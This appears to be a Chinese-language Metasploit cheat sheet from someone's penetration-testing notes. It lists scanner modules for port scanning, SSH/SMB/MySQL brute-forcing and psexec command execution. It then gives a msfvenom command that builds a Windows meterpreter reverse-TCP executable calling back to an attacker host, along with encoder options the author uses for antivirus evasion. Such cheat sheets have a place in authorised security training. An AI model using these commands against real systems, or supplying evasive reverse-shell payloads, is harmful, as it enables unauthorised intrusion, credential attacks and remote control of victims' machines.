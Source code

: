 # 使用辅助模块（Auxiliary）

### 端口扫描

```bash
use auxiliary/scanner/portmap/portmap_amp
use auxiliary/scanner/portscan/ftpbounce
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/portscan/ack
use auxiliary/scanner/portscan/syn
use auxiliary/scanner/portscan/xmas
```

### 服务扫描

```bash
auxiliary/scanner/ssh/ssh_login		#SSH爆破
auxiliary/scanner/vnc/vnc_none_auth	#VNC空口令扫描
auxiliary/scanner/telnet/telnet_login#SSH爆破
auxiliary/scanner/smb/smb_version	#SMB系统版本扫描
auxiliary/scanner/smb/smb_enumusers	#SMB枚举
auxiliary/scanner/smb/smb_login		#SMB弱口令登录
auxiliary/admin/smb/psexec_command	#登录SMB且执行命令

auxiliary/scanner/mssql/mssql_ping	#MSSQL主机信息扫描
auxiliary/admin/mssql/mssql_enum	#MSSQL枚举
auxiliary/scanner/mysql/mysql_login	#MySQL弱口令扫描
auxiliary/admin/mysql/mysql_enum	#MySQL枚举
```

# 攻击载荷和编码（Payloads && Encoders）

**MSF可以用以下方式，生成payload和编码**

```bash
use windows/meterpreter_reverse_http

-E   强制编码
-e   要使用的编码器模块的名称
-f   输出文件名（否则为stdout）
-t   输出格式: raw,ruby,rb,perl,pl,c,java,dll,exe,elf,vbs,asp,war等
-b   要避免的字符列表: '\x00\xff'
```

**但是我个人更喜欢用`msfvenom`生成`shellcode`然后编码免杀。**

**Windows**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=Kali的IP LPORT=Kali监听端口 -f exe > msf.exe

参数选项：
-p			指定的payload
-e 			编码器，x86/shikata_ga_nai
-i			迭代器，对有效载荷的编码次数
-f			输出文件的格式,exe、dll、raw
```
